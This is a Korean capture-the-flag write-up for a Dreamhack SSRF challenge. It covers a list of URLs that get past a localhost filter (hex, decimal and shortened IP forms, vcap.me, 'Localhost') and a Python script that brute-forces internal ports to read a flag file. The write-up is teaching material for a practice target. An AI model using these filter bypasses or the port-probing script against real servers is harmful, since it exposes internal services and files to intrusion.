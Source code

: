 ## 📍web-ssrf

```
flask로 작성된 image viewer 서비스 입니다.
SSRF 취약점을 이용해 플래그를 획득하세요. 플래그는 `/app/flag.txt`에 있습니다.
```

이미지 뷰어가 뜬다.

![](Attachments/{EA1E17AF-74F5-4E05-8C79-B06D89EE62D0}.png)


#### 소스코드

입력값이 `/`로 시작하는 경우 `http://localhost:8000` 뒤에 추가하고 GET 요청을 보낸다.
입력값이 `localhost` 또는 `127.0.0.1`을 포함하면 로컬에서 `error.png` 이미지를 읽어와 반환한다.
이미지 데이터를 가져오는 데 성공하면 Base64로 인코딩한다.
URL 요청에 실패하면 로컬의 `error.png` 이미지를 읽어와서 Base64로 인코딩한다.
![](Attachments/{50FE09BD-B167-40FE-B89A-484ED94B92A1}.png)

파이썬의 `http.server` 모듈을 사용하여 HTTP 서버를 생성한다.
서버가 실행될 호스트 주소는 `127.0.0.1`이고 포트 번호는 1500부터 1800 사이의 랜덤한 포트를 선택한다.
![](Attachments/{062ACFF7-6AD3-4567-9D79-3C8F2C69A8A7}.png)


#### 취약점

`img_viewer`는 이용자가 전달한 `url`에 HTTP 요청을 보내고 응답을 반환한다.
이때 서버 주소에 `127.0.0.1`과 `localhost`가 포함된 URL로의 접근을 막는다.
이를 우회하면 SSRF를 통해 내부 HTTP 서버에 접근할 수 있다.


#### 해결
##### URL 필터링 우회
1. 127.0.0.1과 매핑된 도메인 이름 사용하기
	- 도메인 이름을 구매하면 이를 DNS 서버에 등록해 원하는 IP 주소와 연결할 수 있다.
	- 임의의 도메인 이름을 구매해 127.0.0.1과 연결하고 그 이름을 `url`로 사용하면 필터링 우회가 가능하다.
2. 127.0.0.1의 alias 이용
	- IP의 다양한 표기 방식을 이용한다.
	- `127.0.0.1`
		- 각 자릿수를 16진수로 변환: `0x7f.0x00.0x00.0x01`
		- 위에서 `.`을 제거한 `0x7f000001`
		- 위를 10진수로 변환한 `2130706433`
		- 각 자리에서 0을 생략한 `127.1` 또는 `127.0.1`
	- `127.0.0.1`부터 `127.0.0.255`까지의 IP는 루프백(loop-back) 주소라고 하여 모두 로컬 호스트를 가리킨다.
3. localhost의 alias 이용
	- URL에서 호스트와 스키마는 대소문자를 구분하지 않는 점을 이용한다.

필터링을 우회할 수 있는 localhost URL 목록 ⬇️
```
http://vcap.me:8000/
http://0x7f.0x00.0x00.0x01:8000/
http://0x7f000001:8000/
http://2130706433:8000/
http://Localhost:8000/
http://127.0.0.255:8000/
```


`http://Localhost:8000/`을 Image Viewer에 입력하면 어떤 이미지가 로딩된다.
![](Attachments/{711EBE33-8671-417A-9DE5-0F60D4A45CAA}.png)

개발자 도구로 살펴보면 Base64로 인코딩되어 있다.
![](Attachments/{4E8379C5-947B-441A-8C0C-2390D11E9F92}.png)

Base64 디코딩 사이트에서 디코딩해보면 다음과 같다.
![](Attachments/{ED3ADF80-89D0-49FF-978E-1047576C7ABD}.png)
문제 인덱스 페이지를 인코딩한 이미지임을 알 수 있다.
따라서 위 URL은 필터링을 우회해서 로컬 호스트를 가리킬 수 있는 URL이다.

##### 랜덤한 포트 찾기
내부 HTTP 서버는 포트 번호가 1500 이상 1800 이하인 임의 포트에서 실행되고 있다.
`error.png`를 보여주지 않는 포트 번호를 찾아야 한다.

브루트포스 파이썬 스크립트를 작성해서 실행한다.
```python
import requests

for port in range(1500,1801):
    url = "http://host3.dreamhack.games:15033/img_viewer"
    img_url = f'http://Localhost:{port}/flag.txt'
    data = { "url" : img_url }
    response = requests.post(url, data=data)

    if "iVBORw0KGgoAAAA" not in response.text:
        print(f"port: {port}")
        break;
```
- 필터링을 우회한 로컬호스트 주소에 1500 이상 1800 이하의 포트 번호를 넣은 `img_url`을 `data`의 `url` 키로 추가한다.
	- `data`: 서버에 보낼 요청 데이터
- 지정된 `url`에 대해 POST 요청을 보낸다.
- 응답 텍스트에 특정 문자열(`iVBORw0KGgoAAAA`, PNG 이미지의 시작 부분)이 포함되어 있지 않으면 포트를 출력하고 반복문을 종료한다.

스크립트를 실행하면 포트 번호가 1616이라고 나온다.
![](Attachments/{AA4F8DA0-98B6-4F3E-A219-A2AC037C4ED5}.png)

![](Attachments/{56FCF624-670A-4F15-B1DB-8B4D93C620CE}.png)

Base64로 인코딩된 이미지를 해석하면 FLAG가 나온다.
![](Attachments/{9A0B7D2A-C67A-441E-9A5B-4050BA886902}.png)
